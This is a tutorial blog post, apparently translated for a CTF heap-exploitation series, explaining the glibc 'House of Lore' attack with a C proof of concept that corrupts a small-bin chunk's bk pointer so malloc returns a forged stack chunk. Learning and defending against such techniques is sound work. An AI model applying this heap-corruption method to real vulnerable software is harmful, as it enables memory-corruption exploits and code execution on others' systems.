 ```yaml
---
title: Heap Exploitation系列翻译-14 House of Lore
time: 2017-08-12
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```

# House of Lore

This attack is basically the forging chunks attack for small and large bins. However, due to an added protection for large bins in around 2007 (the introduction of `fd_nextsize` and `bk_nextsize`) it became impractical. Here we shall see the case only for small bins. First, a small chunk will be placed in a small bin. It's `bk` pointer will be overwritten to point to a fake small chunk. Note that in the case of small bins, insertion happens at the `HEAD` and removal at the `TAIL`. A malloc call will first remove the authentic chunk from the bin making the attacker's fake chunk at the `TAIL` of the bin. The next malloc will return the attacker's chunk.

Consider this sample code (download the complete version [here](../assets/files/house_of_lore.c)):

```c
struct small_chunk {
  size_t prev_size;
  size_t size;
  struct small_chunk *fd;
  struct small_chunk *bk;
  char buf[0x64];               // chunk falls in smallbin size range
};

struct small_chunk fake_chunk;                  // At address 0x7ffdeb37d050
struct small_chunk another_fake_chunk;
struct small_chunk *real_chunk;
unsigned long long *ptr, *victim;
int len;

len = sizeof(struct small_chunk);

// Grab two small chunk and free the first one
// This chunk will go into unsorted bin
ptr = malloc(len);                              // points to address 0x1a44010

// The second malloc can be of random size. We just want that
// the first chunk does not merge with the top chunk on freeing
malloc(len);                                    // points to address 0x1a440a0

// This chunk will end up in unsorted bin
free(ptr);

real_chunk = (struct small_chunk *)(ptr - 2);   // points to address 0x1a44000

// Grab another chunk with greater size so as to prevent getting back
// the same one. Also, the previous chunk will now go from unsorted to
// small bin
malloc(len + 0x10);                             // points to address 0x1a44130

// Make the real small chunk's bk pointer point to &fake_chunk
// This will insert the fake chunk in the smallbin
real_chunk->bk = &fake_chunk;
// and fake_chunk's fd point to the small chunk
// This will ensure that 'victim->bk->fd == victim' for the real chunk
fake_chunk.fd = real_chunk;

// We also need this 'victim->bk->fd == victim' test to pass for fake chunk
fake_chunk.bk = &another_fake_chunk;
another_fake_chunk.fd = &fake_chunk;

// Remove the real chunk by a standard call to malloc
malloc(len);                                    // points at address 0x1a44010

// Next malloc for that size will return the fake chunk
victim = malloc(len);                           // points at address 0x7ffdeb37d060
```

Notice that the steps needed for forging a small chunk are more due to the complicated handling of small chunks. Particular care was needed to ensure that `victim->bk->fd` equals `victim` for every small chunk that is to be returned from 'malloc', to pass the "malloc(): smallbin double linked list corrupted" security check. Also, extra 'malloc' calls were added in between to ensure that:

1. The first chunk goes to the unsorted bin instead of merging with the top chunk on freeing.
2. The first chunk goes to the small bin as it does not satisfy a malloc request for `len + 0x10`.

The state of the unsorted bin and the small bin are shown:

1. free(ptr).
  Unsorted bin:
  > head <-> ptr <-> tail

  Small bin:
  > head <-> tail
2. malloc(len + 0x10);
  Unsorted bin:
  > head <-> tail

  Small bin:
  > head <-> ptr <-> tail
3. Pointer manipulations
  Unsorted bin:
  > head <-> tail

  Small bin:
  > undefined <-> fake_chunk <-> ptr <-> tail
4. malloc(len)
  Unsorted bin:
  > head <-> tail

  Small bin:
  > undefined <-> fake_chunk <-> tail
5. malloc(len)
  Unsorted bin:
  > head <-> tail

  Small bin:
  > undefined <-> tail         [ Fake chunk is returned ]

Note that another 'malloc' call for the corresponding small bin will result in a segmentation fault.
